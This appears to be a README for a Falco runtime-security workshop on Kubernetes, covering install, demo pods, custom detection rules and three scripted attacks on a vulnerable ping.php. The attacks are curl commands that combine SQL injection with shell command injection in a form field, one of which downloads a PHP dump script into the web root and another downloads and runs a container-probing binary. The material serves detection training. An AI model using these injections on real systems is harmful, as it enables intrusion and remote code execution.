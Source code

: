 # Sysdig-demo

# You will install Falco using Helm (already installed in the cluster), a package manager for Kubernetes.

helm repo add falcosecurity https://falcosecurity.github.io/charts

helm repo update

kubectl create ns falco

helm install falco -n falco falcosecurity/falco

# You will create three pods (client, mysql, and ping) for this workshop:

kubectl create namespace ping

kubectl create -f mysql-deployment.yaml --namespace=ping

kubectl create -f mysql-service.yaml --namespace=ping

kubectl create -f ping-deployment.yaml --namespace=ping

kubectl create -f ping-service.yaml --namespace=ping

kubectl create -f client-deployment.yaml --namespace=ping

# you will add a few custom rules to Falco

helm upgrade falco falcosecurity/falco -f Unauthorized_process.yaml -n falco

helm upgrade falco falcosecurity/falco -f change_thread_namespace.yaml -n falco

helm upgrade falco falcosecurity/falco -f writing_to_non_allowed_directory.yaml -n falco

# Attack SQL injection:

kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" --form-string "ipaddr=localhost; ps aux" -X POST http://ping/ping.php

# Attack writing file:

kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" --form-string "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php

# Attack change thread namespace:

kubectl exec client -n ping -- curl -F "s=OK" -F "user=bob" -F "passwd=foobar" --form-string "ipaddr=localhost; cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained" -X POST http://ping/ping.php
